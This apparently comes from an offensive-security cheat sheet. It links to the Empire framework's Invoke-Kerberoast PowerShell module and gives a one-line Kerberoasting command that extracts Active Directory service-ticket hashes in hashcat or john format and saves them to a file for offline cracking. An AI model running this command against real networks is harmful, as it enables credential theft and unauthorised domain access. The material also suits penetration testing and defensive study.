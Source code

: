 ### Source
https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1  

### Kerberoast
```
Invoke-Kerberoast -OutputFormat <[hashcat|john]> | % { $_.Hash } | Out-File -Encoding utf8 <file>
```

